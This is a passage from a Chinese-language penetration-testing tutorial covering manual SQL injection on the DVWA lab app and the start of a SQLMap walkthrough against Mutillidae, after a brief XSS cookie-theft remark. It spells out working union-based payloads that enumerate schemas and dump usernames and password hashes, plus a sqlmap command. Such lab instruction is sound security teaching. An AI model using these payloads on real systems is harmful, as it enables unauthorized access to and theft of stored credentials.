    可以看到浏览器成功登录。

### 思考

1. XSS漏洞需要页面可以显示用户输入
2. 需要一台服务器放置获取cookie的脚本



## 6.7 逐步执行基本的SQL注入

dvwa | sql injection

### 判断是否存在SQL注入

在正常输入值的后面加上`'`，`or 1=1`，`and 1=2`之类的测试语句，根据结果判断是否存在SQL注入。注意闭合`'`，可以使用`#`屏蔽后续语句。

### 获取信息

输入 `1' order by 1#`和 `1' order by 2#`时都返回正常，当输入 `1' order by 3#`时，返回错误，可知后台select查询语句的列数为2。

union 运算符可以将两个或两个以上 select 语句的查询结果集合合并成一个结果集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询的列数相同。

+ 获取数据库名字 `1' union select 1, database() #`，结果是dvwa
+ 获取当前用户 `1' union select 1, user() #`
+ 获取数据库版本 `1' union select 1, @@version #`
+ 获取操作系统 `1' union select 1,  #`
+ 获取mysql数据库表名 `1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`，dvwa 数据库有两个数据表，分别是 guestbook 和 users。
+ 获取表中字段名：`1′ union select 1,group_concat(column_name) from information_schema.columns where table_name='users'`，users表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。
+ 下载数据 `1′ union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`

### 一些疑惑

+ `' or 1=1 order by 3 --'`可以正确执行（`--`后面没有空格）
+ `' or 1=1 order by 3 -- '`服务器报错（`--`后面有空格）
+ `1‘ order by 3`可以正确执行（1后面的引号是中文引号）



## 6.8 使用SQLMap发现和利用SQL注入

SQLMap 是个命令行工具，包含在 Kali 中，可以帮我们自动化检测和利用 SQL 注入，它带有多种技巧，并支持多种数据库。

### GET注入

**检查注入点**

`sqlmap -u "192.168.2.167/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details"`

**暴所有数据库的信息**
